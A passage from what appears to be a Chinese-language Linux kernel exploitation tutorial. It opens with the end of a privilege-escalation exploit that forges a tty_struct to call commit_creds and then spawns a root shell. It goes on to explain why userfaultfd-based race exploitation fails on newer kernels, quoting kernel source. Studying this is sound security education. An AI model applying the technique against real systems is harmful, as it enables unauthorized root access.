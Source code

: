 ```c
    noteRead(0, fake_tty_struct_data);
    fake_tty_struct_data[4] = kernel_offset + COMMIT_CREDS;
    fake_tty_struct_data[5] = fake_tty_struct_data[6];
    fake_tty_struct_data[6] = orig_tty_struct_data[6];

    noteWrite(0, fake_tty_struct_data);

    ioctl(tty_fd, 233, 233);

    /* fix tty_struct */
    memcpy(fake_tty_struct_data, orig_tty_struct_data, 0x2e0);
    noteWrite(0, fake_tty_struct_data);

    /* pop root shell */
    getRootShell();

    return 0;
}
```

## 新版本内核对抗 userfaultfd 在 race condition 中的利用

正所谓“没有万能的银弹”，可能有的人会发现在较新版本的内核中 userfaultfd 系统调用无法成功启动：

![uffd_failed](figure/uffd_failed.png)

这是因为在较新版本的内核中修改了变量 `sysctl_unprivileged_userfaultfd` 的值：

> 来自 linux-5.11 源码`fs/userfaultfd.c`：

```c
int sysctl_unprivileged_userfaultfd __read_mostly;
//...
SYSCALL_DEFINE1(userfaultfd, int, flags)
{
    struct userfaultfd_ctx *ctx;
    int fd;

    if (!sysctl_unprivileged_userfaultfd &&
        (flags & UFFD_USER_MODE_ONLY) == 0 &&
        !capable(CAP_SYS_PTRACE)) {
        printk_once(KERN_WARNING "uffd: Set unprivileged_userfaultfd "
            "sysctl knob to 1 if kernel faults must be handled "
            "without obtaining CAP_SYS_PTRACE capability\n");
        return -EPERM;
    }
//...
```

> 来自 linux-5.4 源码`fs/userfaultfd.c`：

```c
int sysctl_unprivileged_userfaultfd __read_mostly = 1;
//...
```
